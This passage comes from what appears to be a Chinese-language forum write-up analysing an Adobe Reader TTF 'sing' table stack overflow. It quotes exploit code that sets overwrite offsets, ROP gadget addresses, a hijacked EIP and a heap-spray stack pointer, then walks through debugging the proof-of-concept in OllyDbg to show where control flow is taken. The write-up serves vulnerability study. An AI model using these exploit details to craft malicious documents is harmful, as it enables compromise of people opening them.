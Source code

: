 ### 3.2.1 三个特殊位置顺利分析出来

在上面有看到 TTF 文件中设置了几个特殊的位置，分别是：

```
# 0xffffffff gets written here @ 0x7001400 (in BIB.dll)
sing[0x140, 4] = [0x4a8a08e2 - 0x1c].pack('V')
 
# This becomes our new EIP (puts esp to stack buffer)
ret = 0x4a80cb38 # add ebp, 0x794 / leave / ret
sing[0x208, 4] = [ret].pack('V')
 
# This becomes the new eip after the first return
ret = 0x4a82a714
sing[0x18, 4] = [ret].pack('V')
 
# This becomes the new esp after the first return
esp = 0x0c0c0c0c
sing[0x1c, 4] = [esp].pack('V')
 
# Without the following, sub_801ba57 returns 0.
sing[0x24c, 4] = [0x6c].pack('V')

```

下面通过调试确定这几个位置的作用。

 

找到了漏洞的位置之后，使用之前在 0day 上学习到的调试 PDF 漏洞的方法，使用 OD 打开 Adobe Reader，选择`File`→`Open`，在打开 POC 之前，在`0x803DCF9`这里设置一个断点，然后打开 POC 文件，OD 会断在断点位置，在这里打一个快照方便之后回溯。

 

然后执行到`0x0803DDAB`的`strcat`调用处，`F8`执行，可以看到`0x12E4D8`已经被写入了`sing`表的`uniquename`内容：

 

![](https://bbs.pediy.com/upload/attach/202107/600394_XEYYTXKHKMKJKDF.png)

 

接下来要确定程序的执行流程是在哪里被劫持的，直接在复制的这段数据上设置内存访问断点（这个方法很好，一开始我还想靠代码分析，后来发现完全不行，太复杂了），F9 执行。

 

接下来会经历两次对该段数据的遍历，这里不用管，已知到达了一个调用：

 

![](https://bbs.pediy.com/upload/attach/202107/600394_ACCMTMQ976HQW88.png)

 

注意到这里调用的地址就保存在`uniquename`中，也就是上面提到的第二个特殊位置：

```
# This becomes our new EIP (puts esp to stack buffer)
ret = 0x4a80cb38 # add ebp, 0x794 / leave / ret
sing[0x208, 4] = [ret].pack('V')

```
